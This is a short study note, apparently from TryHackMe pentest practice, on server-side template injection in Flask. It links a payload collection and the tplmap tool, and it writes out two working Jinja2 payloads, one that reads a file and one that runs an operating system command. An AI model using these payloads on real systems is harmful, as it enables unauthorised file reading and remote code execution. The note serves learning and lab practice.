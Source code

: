 # SSTI
#pentest/tryhackme

## What
Server Side Template Injection. Happens when the website evaluates user input through a templating engine.

## Payloads
* [PayloadsAllTheThings/Server Side Template Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection)

## Example of Flask's template evaluation
* Read a file:  `{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}} `
* Execute a command: `{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}`

## Tool to evaluate SSTI
* [GitHub - epinna/tplmap: Server-Side Template Injection and Code Injection Detection and Exploitation Tool](https://github.com/epinna/tplmap)

The basic syntax for tplmap is different depending on whether you're using get or post
`GET   tplmap -u <url>/?<vulnparam>`
`POST tplmap -u <url> -d '<vulnparam>'`



